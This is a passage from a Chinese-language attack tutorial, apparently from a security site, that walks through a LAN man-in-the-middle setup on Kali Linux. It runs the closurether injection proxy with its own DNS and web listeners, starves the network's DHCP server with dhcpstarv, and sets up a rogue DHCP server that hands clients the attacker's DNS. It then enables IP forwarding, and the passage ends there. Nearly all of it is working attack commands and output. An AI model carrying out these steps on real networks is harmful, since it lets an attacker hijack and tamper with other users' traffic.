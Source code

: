运行closurether：

```
root@kali:~# closurether
[SYS] local ip: 192.168.1.108
[DNS] running 0.0.0.0:53
[WEB] listening :::80
[WEB] listening :::443

```

**2.进行dhcp攻击**:

下载[dhcpstarv](http://sourceforge.net/projects/dhcpstarv/files/dhcpstarv/0.2.1/dhcpstarv-0.2.1.tar.gz/download),安装：

```
root@kali:~/Desktop# tar zxvf dhcpstarv-0.2.1.tar.gz
root@kali:~/Desktop# cd dhcpstarv-0.2.1/
root@kali:~/Desktop/dhcpstarv-0.2.1# ./configure
root@kali:~/Desktop/dhcpstarv-0.2.1# make 
root@kali:~/Desktop/dhcpstarv-0.2.1# make install

```

> Kali默认没有安装dhcpstarv，也可以用yersinia代替

安装dhcp服务器：

```
root@kali:~# apt-get install isc-dhcp-server

```

修改dhcp配置文件dhcpd.conf

```
root@kali:~# cd /etc/dhcp/
root@kali:/etc/dhcp# cp dhcpd.conf dhcpd.conf.bak
root@kali:/etc/dhcp# vim dhcpd.conf

```

修改DHCP分配的地址池，修改默认路由为原来路由的Ip，修改广播地址：

![Alt text](http://drops.javaweb.org/uploads/images/22b152515fef2c09e13cf95af13609b9e984d9ef.jpg)

设置dns为开启了closurether的地址，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/60ea1d14248586eee8eefe4fae90d8082436b178.jpg)

> 这里最好加一个正常的DNS服务器地址最为备选，防止我们的DNS服务对部分域名不解析

开启操作系统的路由转发：

```
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward

```
